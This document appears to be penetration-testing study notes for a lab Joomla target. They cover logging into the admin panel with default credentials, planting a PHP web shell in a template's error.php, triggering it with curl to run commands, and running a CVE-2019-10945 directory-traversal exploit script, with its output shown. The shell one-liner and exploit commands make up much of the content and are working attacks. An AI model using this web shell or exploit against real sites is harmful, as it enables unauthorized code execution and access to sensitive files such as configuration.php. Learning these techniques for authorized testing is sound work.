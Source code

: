 ### **Gaining Remote Code Execution via Admin Backend**

- Use valid **admin credentials** (e.g., `admin:admin`) to log into:
    - `http://dev.inlanefreight.local/administrator`

- If encountering error:  
    `Call to a member function format() on null`  
    → Disable **Quick Icon - PHP Version Check** plugin at:  
    `/administrator/index.php?option=com_plugins`


#### **Injecting Web Shell**

- Navigate to: `Templates → Template Name (e.g., protostar) → error.php`
- Insert PHP one-liner:
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

- Save changes, then test with:
```bash
curl -s "http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id"
```

- Result
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Notes**:
- Use _non-standard param names_ for stealth
- Always _remove the shell_ post-exploitation
- Record **file path, hash, and payload** in the report

---

### **Exploiting Known Joomla Core Vulnerability (CVE-2019-10945)**

- Affects **Joomla 1.5.0 to 3.9.4**
- **Directory Traversal & Authenticated File Deletion**
- Exploitable if admin creds are known

#### **Python Script Usage**

- Exploit:
```bash
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

- Output:
```bash
administrator
bin
cache
...
configuration.php
index.php
robots.txt
```

Use to:
- **List directory contents**
- Potentially access sensitive files (e.g., `configuration.php`)
- **Caution**: File deletion is possible but unethical in pentesting

---

### **General Notes**

- Joomla core RCE vulnerabilities are _rare_  
    Most issues stem from **extensions**

- With admin access, _template customization_ allows code execution

- Tools:
    - `curl` for testing payloads
    - Python exploit scripts for traversal/deletion

- Always maintain **reporting hygiene**:
    - Log all payloads used
    - Cleanup all changes
    - Document artifacts